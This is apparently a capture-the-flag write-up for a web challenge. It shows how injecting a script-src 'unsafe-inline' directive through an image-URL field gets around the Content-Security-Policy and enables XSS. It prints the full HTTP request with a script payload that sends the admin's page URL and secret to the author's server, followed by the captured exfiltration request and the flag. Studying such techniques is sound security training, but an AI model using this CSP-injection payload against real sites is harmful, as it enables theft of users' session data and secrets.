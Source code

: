 PostMan 
===
#### [web, 70p, 12 solves]
**TLDR**; simple XSS which was blocked by CSP. You needed to inject into CSP header to get XSS working.

The application let user to create posts with a title and an image. Image had to be passed in form of a link. You could report post to the admin who will inspect it (typical XSS challange).    
Right of a bat I found simple XSS in title field `<script>alert(1)</script>`, but it was blocked due to CSP header that server set in the response:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 518
Content-Security-Policy: default-src 'self'; img-src https://i.imgur.com/SW3HsEm.png; connect-src *;
Set-Cookie: session=91ddc442-ea0c-47ef-bc81-9cbe057f01df; Expires=Sat, 25-Jan-2020 20:42:04 GMT; HttpOnly; Path=/
Server: Werkzeug/0.14.1 Python/3.8.0
Date: Wed, 25 Dec 2019 20:42:04 GMT
```
At that moment I realised that the link to the image is inserted into CSP header. My first thought was the header injection, but that lead me nowhere. Flask is smart enought to detect new lines in response headers.
After a while I thought about CSP injection. From the CSP header I knew that there were 3 policies defined, `default-src` , `img-src` for our image in the post and `connect-src` (not sure why that one is defined). The default policy allows for the content only from the challenge site origin. When `script-src` policy isn't defined, it inherits from default one, so that why XSS from earlier was blocked. To make it work, I needed to somehow define `script-src` policy with `unsafe-inline` value, which allows for html script tag usage (`<script></script>`).
And that's exactly what I did. I injected `script-src` policy into the link field. The final request looked like that (post data url decoded for better readability):
```
POST / HTTP/1.1
Host: ctf.kaf.sh:3030
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.kaf.sh:3030/
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Connection: close
Cookie: session=91ddc442-ea0c-47ef-bc81-9cbe057f01df
Upgrade-Insecure-Requests: 1

title=<script>document.location = 'http://myserver.local/?' + document.URL;</script>&pictureSrc=https://i.imgur.com/SW3HsEm.png; script-src 'unsafe-inline'
```
XSS was finally triggered. During CTF I used XSS hunter for the payload since I didn't knew what or where to look for the flag, but here I posted more direct solution that will send whole URL. I reported that post to the admin and after few seconds I've got that request
```
GET /?http://ctf.kaf.sh:3030/post/5?secret=7NKuGbDnFEWijCXtmPpTQVegzk95yRS6 HTTP/1.1
Host: myserver.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```
When I visited `http://ctf.kaf.sh:3030/?secret=7NKuGbDnFEWijCXtmPpTQVegzk95yRS6`, I've got the flag
`KAF{c5P_1nJ3c710ns_4r3_FUn}`
